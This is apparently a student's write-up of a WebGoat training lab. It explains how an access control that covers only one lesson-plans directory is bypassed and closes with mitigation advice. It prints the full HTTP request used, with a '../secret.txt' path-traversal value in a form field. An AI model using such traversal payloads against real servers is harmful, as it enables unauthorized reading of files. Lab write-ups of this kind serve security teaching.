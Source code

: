 ## Vulnerability:

Access control mechanism is only implemented for `/var/lib/tomcat6/webapps/ROOT/lesson_plans/English` directory. It allows access to files from the list and denies access for all other files (from that directory).

However (as showed in 'Exploitation' paragraph below) there is no real access control for parent direcotry (`lesson_plans/`) so user can access files from that direcotry.

## Exploitation:

I used "Live HTTP headers" add-on for Firefox to solve this level.

Here's my HTTP request that gave me access to /var/lib/tomcat6/webapps/ROOT/lesson_plans/secret.txt file:

```
Host: webgoat.hacking-lab.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:30.0) Gecko/20100101 Firefox/30.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Referer: http://webgoat.hacking-lab.com/attack?Screen=57&menu=200
Cookie: JSESSIONID=03720BE9C23566001E524C889638B7EE
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 35

File=../secret.txt&SUBMIT=View+File
```

## Mitigation:

Proper access control mechanism should be implemented for whole directory hierarchy in webserver's root directory (`webapps/ROOT`).

Also it is recommended that all sensitive files(like 'secret.txt') should be out of webserver's root directory ( `webapps/ROOT`) directory or should be explicitly denied in access control mechanism. 

